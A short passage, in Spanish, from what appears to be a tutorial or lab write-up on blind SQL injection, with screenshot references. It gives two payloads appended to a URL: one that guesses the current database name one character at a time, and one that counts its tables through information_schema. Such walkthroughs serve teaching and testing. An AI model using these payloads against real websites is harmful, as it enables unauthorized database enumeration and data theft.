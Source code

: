 6 caracteres en total.

<br>
"Visualizando" el nombre de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND substring(database(),x,1)='x';#</font></pre>

![v_database](/assets/img/screens/database_3.png)

<br>
Averiguando la cantidad de tablas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND (SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=x;#</font></pre>

